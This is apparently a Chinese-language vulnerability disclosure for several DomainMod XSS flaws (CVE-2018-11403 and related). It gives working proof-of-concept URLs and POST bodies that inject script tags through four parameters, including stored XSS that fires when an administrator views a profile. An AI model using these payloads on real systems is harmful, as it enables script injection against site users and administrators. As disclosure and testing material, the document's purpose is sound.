 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|DomainMod的XSS|2018-05-24|longer/套哥（taoge@5ecurity.cn）|[https://github.com/domainmod/domainmod](https://github.com/domainmod/domainmod) | [https://github.com/domainmod/domainmod](https://github.com/domainmod/domainmod) |4.09.03/4.10.0| [CVE-2018-11403](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11403)/[CVE-2018-11403](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11403)/[CVE-2018-11404](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11404)/[CVE-2018-11558](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11558)/[CVE-2018-11559](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11559)|  

#### 漏洞概述  

> DomainMod v4.09.03版本和v4.10.0版本 存在XSS的页面  


### POC实现代码如下：  

> DomainMod v4.09.03版本的“assets/edit/account-owner.php”页面的“oid”参数存在一个XSS漏洞，当用户登陆后访问url`http://127.0.0.1/assets/edit/account-owner.php?del=1&oid=%27%22%28%29%26%25%3Cacx%3E%3CScRiPt%20%3Eprompt%28973761%29%3C/ScRiPt%3E`，会触发XSS漏洞。DomainMod是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/domainmod/domainmod/issues/63)告知作者。

>CSRF测试页面代码如下：  
``` html
http://127.0.0.1/assets/edit/account-owner.php?del=1&oid=%27%22%28%29%26%25%3Cacx%3E%3CScRiPt%20%3Eprompt%28973761%29%3C/ScRiPt%3E
```
> DomainMod v4.09.03版本的“assets/edit/ssl-provider-account.php”页面的“sslpaid”参数存在一个XSS漏洞，当用户登陆后访问url`http://127.0.0.1/assets/edit/ssl-provider-account.php?del=1&sslpaid=%27%22%28%29%26%25%3Cacx%3E%3CScRiPt%20%3Eprompt%28931289%29%3C/ScRiPt%3E`，会触发XSS漏洞。DomainMod是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/domainmod/domainmod/issues/63)告知作者。

>CSRF测试页面代码如下：  
``` html
http://127.0.0.1/assets/edit/ssl-provider-account.php?del=1&sslpaid=%27%22%28%29%26%25%3Cacx%3E%3CScRiPt%20%3Eprompt%28931289%29%3C/ScRiPt%3E
```
> DomainMod 4.10.0版本的“/settings/profile/index.php”页面的“new_first_name”参数过滤不严格导致存在一个XSS漏洞。DomainMod是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/domainmod/domainmod/issues/66)告知作者。

>用户登陆后提交如下数据包，更改用户信息后，当管理员查看用户是XSS漏洞触发：  
``` raw
post url https://demo.domainmod.org/settings/profile/
post data:new_first_name=test%22%3E%3Cscript%3Ealert%28%2F1111%2F%29%3C%2Fscript%3E&new_last_name=test&new_email_address=test%40test.com&new_currency=USD&new_timezone=Canada%2FPacific&new_expiration_emails=0
```
> DomainMod 4.10.0版本的“/settings/profile/index.php”页面的“new_last_name”参数过滤不严格导致存在一个存储型XSS漏洞。DomainMod是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/domainmod/domainmod/issues/66)告知作者。

>用户登陆后提交如下数据包，更改用户信息后，当管理员查看用户是XSS漏洞触发：  
``` raw
post url https://demo.domainmod.org/settings/profile/
post data:new_first_name=test&new_last_name=test%22%3E%3Cscript%3Ealert%28%2F1111%2F%29%3C%2Fscript%3E&new_email_address=test%40test.com&new_currency=USD&new_timezone=Canada%2FPacific&new_expiration_emails=0
```
